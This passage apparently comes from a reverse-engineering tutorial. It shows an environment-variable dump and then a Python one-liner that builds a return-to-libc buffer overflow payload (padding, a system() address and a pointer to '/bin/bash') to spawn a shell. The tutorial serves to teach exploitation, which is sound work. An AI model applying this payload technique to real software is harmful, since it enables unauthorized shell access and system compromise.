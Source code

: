     GNOME_KEYRING_PID=
    LANG=en_IN
    GDM_LANG=en_US
    MANDATORY_PATH=/usr/share/gconf/ubuntu.mandatory.path
    _system_arch=x86_64
    COMPIZ_CONFIG_PROFILE=ubuntu
    IM_CONFIG_PHASE=1
    _system_version=16.04
    GDMSESSION=ubuntu
    rvm_version=1.29.4 (master)
    SESSIONTYPE=gnome-session
    GTK2_MODULES=overlay-scrollbar
    SHLVL=1
    HOME=/home/adwi
    XDG_SEAT=seat0
    LANGUAGE=en_IN:en
    GNOME_DESKTOP_SESSION_ID=this-is-deprecated
    UPSTART_INSTANCE=
    UPSTART_EVENTS=xsession started
    XDG_SESSION_DESKTOP=ubuntu
    LOGNAME=adwi
    COMPIZ_BIN_PATH=/usr/bin/
    GEM_PATH=/home/adwi/.rvm/gems/ruby-2.4.1:/home/adwi/.rvm/gems/ruby-2.4.1@global
    DBUS_SESSION_BUS_ADDRESS=unix:abstract=/tmp/dbus-HSPQIdEgqW
    XDG_DATA_DIRS=/usr/share/ubuntu:/usr/share/gnome:/usr/local/share:/usr/share:/var/lib/snapd/desktop
    QT4_IM_MODULE=xim
    LESSOPEN=| /usr/bin/lesspipe %s
    INSTANCE=
    UPSTART_JOB=unity7
    XDG_RUNTIME_DIR=/run/user/1000
    DISPLAY=:0
    XDG_CURRENT_DESKTOP=Unity
    GTK_IM_MODULE=ibus
    RUBY_VERSION=ruby-2.4.1
    LESSCLOSE=/usr/bin/lesspipe %s %s
    _system_name=Ubuntu
    XAUTHORITY=/home/adwi/.Xauthority
    _=/usr/bin/env


The following is a part of the above output: 

    TERM=xterm-256color
    VTE_VERSION=4205
    XDG_MENU_PREFIX=gnome-
    SHELL=/bin/bash

So, our exploit is running **56color**. It should run **/bin/bash**. We just have to change the address accordingly. Add the number of characters between first character of 56color and first character of /bin/bash. 

    rev_eng_series/post_14$ python -c "print 'a' * 108 + 'b' * 4 + '\xa0\xfd\xe2\xf7' + 'c' * 4 + '\xaf\xd0\xff\xff'" > exploit.txt
